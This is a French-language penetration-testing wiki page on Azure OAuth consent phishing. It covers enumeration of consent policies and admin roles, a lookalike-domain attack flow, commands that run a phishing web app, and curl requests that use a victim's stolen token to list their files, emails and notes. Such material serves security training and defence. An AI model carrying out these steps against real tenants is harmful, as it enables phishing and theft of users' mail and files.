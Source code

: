 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## Phishing d'applications OAuth

**Les applications Azure** sont configurées avec les autorisations qu'elles pourront utiliser lorsque l'utilisateur consent à l'application (comme énumérer le répertoire, accéder aux fichiers ou effectuer d'autres actions). Notez que l'application agira au nom de l'utilisateur, donc même si l'application peut demander des autorisations d'administration, si **l'utilisateur qui consent n'a pas cette autorisation**, l'application **ne pourra pas effectuer d'actions administratives**.

### Autorisations de consentement des applications

Par défaut, tout **utilisateur peut donner son consentement aux applications**, bien que cela puisse être configuré pour que les utilisateurs ne puissent consentir qu'aux **applications de publishers vérifiés pour des autorisations sélectionnées** ou même **supprimer l'autorisation** pour que les utilisateurs consentent aux applications.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Si les utilisateurs ne peuvent pas consentir, des **administrateurs** comme `GA`, `Application Administrator` ou `Cloud Application` `Administrator` peuvent **consentir aux applications** que les utilisateurs pourront utiliser.

De plus, si les utilisateurs peuvent consentir uniquement aux applications utilisant des autorisations **à faible risque**, ces autorisations sont par défaut **openid**, **profile**, **email**, **User.Read** et **offline_access**, bien qu'il soit possible d'**ajouter plus** à cette liste.

Et s'ils peuvent consentir à toutes les applications, ils peuvent consentir à toutes les applications.

### 2 Types d'attaques

- **Non authentifié** : À partir d'un compte externe, créez une application avec les **autorisations à faible risque** `User.Read` et `User.ReadBasic.All` par exemple, phishing un utilisateur, et vous pourrez accéder aux informations du répertoire.
- Cela nécessite que l'utilisateur phishé soit **capable d'accepter des applications OAuth d'un locataire externe**.
- Si l'utilisateur phishé est un administrateur qui peut **consentir à n'importe quelle application avec n'importe quelles autorisations**, l'application pourrait également **demander des autorisations privilégiées**.
- **Authentifié** : Ayant compromis un principal avec suffisamment de privilèges, **créez une application à l'intérieur du compte** et **phish** un **utilisateur privilégié** qui peut accepter des autorisations OAuth privilégiées.
- Dans ce cas, vous pouvez déjà accéder aux informations du répertoire, donc l'autorisation `User.ReadBasic.All` n'est plus intéressante.
- Vous êtes probablement intéressé par des **autorisations qui nécessitent qu'un administrateur les accorde**, car un utilisateur ordinaire ne peut donner aucune autorisation aux applications OAuth, c'est pourquoi vous devez **phisher uniquement ces utilisateurs** (plus d'informations sur les rôles/permissions qui accordent ce privilège plus tard).

### Les utilisateurs sont autorisés à consentir

Notez que vous devez exécuter cette commande à partir d'un utilisateur à l'intérieur du locataire, vous ne pouvez pas trouver cette configuration d'un locataire depuis un externe. Le cli suivant peut vous aider à comprendre les autorisations des utilisateurs :
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Les utilisateurs peuvent consentir à toutes les applications : Si à l'intérieur de **`permissionGrantPoliciesAssigned`** vous pouvez trouver : `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` alors les utilisateurs peuvent accepter chaque application.
- Les utilisateurs peuvent consentir aux applications de publishers vérifiés ou de votre organisation, mais seulement pour les permissions que vous sélectionnez : Si à l'intérieur de **`permissionGrantPoliciesAssigned`** vous pouvez trouver : `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` alors les utilisateurs peuvent accepter chaque application.
- **Désactiver le consentement des utilisateurs** : Si à l'intérieur de **`permissionGrantPoliciesAssigned`** vous ne pouvez trouver que : `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` et `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` alors les utilisateurs ne peuvent consentir à aucune.

Il est possible de trouver la signification de chacune des politiques commentées dans :
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Administrateurs d'application**

Vérifiez les utilisateurs considérés comme administrateurs d'application (peuvent accepter de nouvelles applications) :
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Aperçu du Flux d'Attaque**

L'attaque implique plusieurs étapes ciblant une entreprise générique. Voici comment cela pourrait se dérouler :

1. **Enregistrement de Domaine et Hébergement d'Application** : L'attaquant enregistre un domaine ressemblant à un site de confiance, par exemple, "safedomainlogin.com". Sous ce domaine, un sous-domaine est créé (par exemple, "companyname.safedomainlogin.com") pour héberger une application conçue pour capturer des codes d'autorisation et demander des jetons d'accès.
2. **Enregistrement de l'Application dans Azure AD** : L'attaquant enregistre ensuite une Application Multi-Tenant dans son locataire Azure AD, la nommant d'après l'entreprise cible pour paraître légitime. Il configure l'URL de redirection de l'application pour pointer vers le sous-domaine hébergeant l'application malveillante.
3. **Configuration des Autorisations** : L'attaquant configure l'application avec diverses autorisations API (par exemple, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Ces autorisations, une fois accordées par l'utilisateur, permettent à l'attaquant d'extraire des informations sensibles au nom de l'utilisateur.
4. **Distribution de Liens Malveillants** : L'attaquant crée un lien contenant l'identifiant client de l'application malveillante et le partage avec des utilisateurs ciblés, les trompant pour qu'ils accordent leur consentement.

## Exemple d'Attaque

1. Enregistrer une **nouvelle application**. Elle peut être uniquement pour le répertoire actuel si vous utilisez un utilisateur du répertoire attaqué ou pour n'importe quel répertoire si c'est une attaque externe (comme dans l'image suivante).
1. Définir également l'**URI de redirection** sur l'URL attendue où vous souhaitez recevoir le code pour obtenir des jetons (`http://localhost:8000/callback` par défaut).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Ensuite, créer un secret d'application :

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Sélectionner les autorisations API (par exemple, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Exécuter la page web (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** qui demande les autorisations :
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Envoyez l'URL à la victime**
1. Dans ce cas `http://localhost:8000`
6. **Les victimes** doivent **accepter l'invite :**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Utilisez le **jeton d'accès pour accéder aux autorisations demandées** :
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Autres Outils

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Consultez [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) pour apprendre à le configurer.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-Exploitation

### Phishing Post-Exploitation

Selon les autorisations demandées, vous pourriez être en mesure de **accéder à différentes données du locataire** (liste des utilisateurs, groupes... ou même modifier les paramètres) et **informations de l'utilisateur** (fichiers, notes, e-mails...). Ensuite, vous pouvez utiliser ces autorisations pour effectuer ces actions.

### Application Post Exploitation

Vérifiez les sections Applications et Service Principal de la page :

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Références

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
